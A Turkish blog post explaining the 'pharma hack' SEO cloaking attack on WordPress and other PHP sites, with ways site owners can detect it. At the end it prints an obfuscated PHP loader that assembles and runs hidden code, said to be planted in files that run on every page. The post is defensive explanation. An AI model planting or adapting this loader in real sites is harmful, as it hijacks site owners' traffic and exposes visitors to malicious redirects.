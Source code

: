 ```yaml
---
title: "Pharma hack (Google Cloaking Hack) nedir?"
slug: pharma-hack-google-cloaking-hack-nedir
date: 2012-01-02
url: http://mfyz.com/tr/pharma-hack-google-cloaking-hack-nedir/
tags: ["cloak","cloaking","google","hack","pharma","php","seo","Sunucu Programlama","wordpress"]
category: Sunucu Programlama
migration: {"wpId":159,"wpPostDate":"2012-01-02T03:09:02.000Z"}
lang: tr
---
```


#### Pharma hack nedir?

Pharma hack bır çeşit SEO saldırısıdır. Asıl adı Google Cloaking Hack'dır. Sitenizi html çıktısını kullanıcıya göre manipüle etmek üzerine kuruludur. Pharma hack adını genellikle internette cinsel sağlık ürünleri veya besin takviyesi satan şirketlerin bu hack ile trafik kazanmaya çalışmasından almıştır. Yani bu hack sadece sitenizin arama motoru trafiğini kesmez. Tabi siz analitics yazılımlarda bir trafik kaybı görmezsiniz. Sadece bounce rate'iniz her gün yükselir ve dış trafiğiniz artar. Bu da pagerank'ınızı kaybetmeninizi sağlayabilir.

Büyük tehlike ise sitenizin sansürlenmesi. Türkiye'de son dönemde birçok sitenin/blogun sansürlerden dolayı engellendiğini görüyorsunuz. Bu filtreler genelde halka açık ortamlar, eğitim kurumları gibi alanlarda çok daha etkin. Yani zararsız bir siteye sahip olsanız bile bu hack ile MEB ve BTK'nın google indeksleri ile edindiği site bilgisi genelde cinsel sağlık ürünleri olacağı için muhtemelen siz o içeriğe sahip olmasanız bile okullar, internet cafe'ler gibi yerlerden otomatik olarak filtrelenmiş olacaksınız.

#### Nasıl oluyor?

Pharma hack sitenize doğrudan ziyaretle anlayamayacağınız bir saldırıdır. Siteniz doğrudan gelen ziyaretçilere normal çıktısını verir ve tarayıcıda doğrudan sitenize giren insanlar sitenizi görmeye devam ederler, böylece siz de anlamazsınız pharma hack altında olduğunuzu.

Ama arama motoru botları sitenizi taramaya çalıştığı zaman sitenizin hack kodu sitenizin sayfa başlığı, anahtar kelimeleri gibi meta etiketlerini değiştirip sayfa içeriğinde istedikleri anahtar kelimeleri de ekleyerek sitenizin çıktısını manipule eder. Böylece pagerank'ınızı kullanarak arama motorlarından gelen trafiğinizi çalarlar. Böylece sitenize ait tüm google indeksleri bir sonraki güncellemede o anahtar kelimeleri alır. Eğer siteniz yüksek page rankına sahipse o anahtar kelimelerde üst sıralarda çıkar ve kullanıcı linke tıkladıgı zaman sayfanızdaki ufak bir javascript kodu kullanıcıyı başka bir sunucuya yönlendirir. Arama motoru trafiğiniz yanlış içerikle sunulur ve kısaca arama motoru trafiğiniz başka bir siteye yönlendirilir.

#### Sitenizde pharma hack var mı?

Sitenizi sayfaları kontrol ederek pharma hack olup olmadığını anlayamazsınız. Birkaç yolu var;

1) Tarayıcınızın User Agent'ını GoogleBot olarak değiştirip sitenize girebilir, sayfalarınız öyle kontrol edebilirsiniz.

2) Google Webmaster Tools'a kayıt olup sitenizi ekleyip google botun sitenizi nasıl taradığını görebilirsiniz. Googlebot site sitenizin verdiği HTML çıktısını gösterecektir. Meta etiketlerinizi ve sayfa içeriğinizi kontrol edip fakrlı olup olmadığını görebilirsiniz.

#### Ne tür uygulamalarda yapıyorlar?

Benim gördüğüm örnekleri popüler php hostinglerde ya sunucu kontrolünü ele geçirdikten sonra tüm hesaplara ya da sadece sizin hesabınızı ele geçirdilerse sizin hesabınızda yapılan birkaç ufak php numarasıyla sayfalarınızı arama motoru botlarında farklı render etme üzerine kuruludur. Eğer bir wordpress bloguna veya joomla, drupal gibi bir CMS kullanıyorsanız muhtemel olarak tehlike altındasınız demektir çünkü ele geçirilmesi, gizlenmesi en kolay ve hackerların hedef kitlesidir.

Örnek bir pharma hack kodu göstermem gerekirse:
```
$check\_tmg\_password\_reset\_key = 'QN9Mrh7F=4?C!N^NP.NJ16YH6K66G=+BOeHeQ7D?A!"
CMD$JT,UTP@#3kSZ=j8;>?=B5$(v+}k~)tKkwz6puT|\_P{-\[11):V;Hblc<eyfau+Z4r29\[dID2ThIY.E^A|AHcN@E-
woZPd'^'48X!Z(P<TZY/@:;f6G"/nQ<<i(YX3XE6<MjJ9X)ZnLD:7kE.9E;z=&ZIE05PEHZ
PZQmyMJY{5;\*h8d;?\*b19{,7 Tl/EC@X#O-M<+l18\*N\[X,Z\]FT+K96\]$E+8\] 
q##t{R\`0+JUFsy\_';
$make\_ao\_site\_theme\_from\_oldschool = '"\`E\`\`e\_Fe$"dai.'|'Are!t!Y tncT)oF';

$wp\_rzc\_newPage = $make\_ao\_site\_theme\_from\_oldschool('',$check\_tmg\_password\_reset\_key);
$wp\_rzc\_newPage();

```
Bu kod wordpress bloglar için özellikle yazılmış bir pharma hack kodu. Genelde sitenizde her sayfada çalıştırılan bir dosyada yer alırlar. (bootstrap.php, common.php, db.php vs...)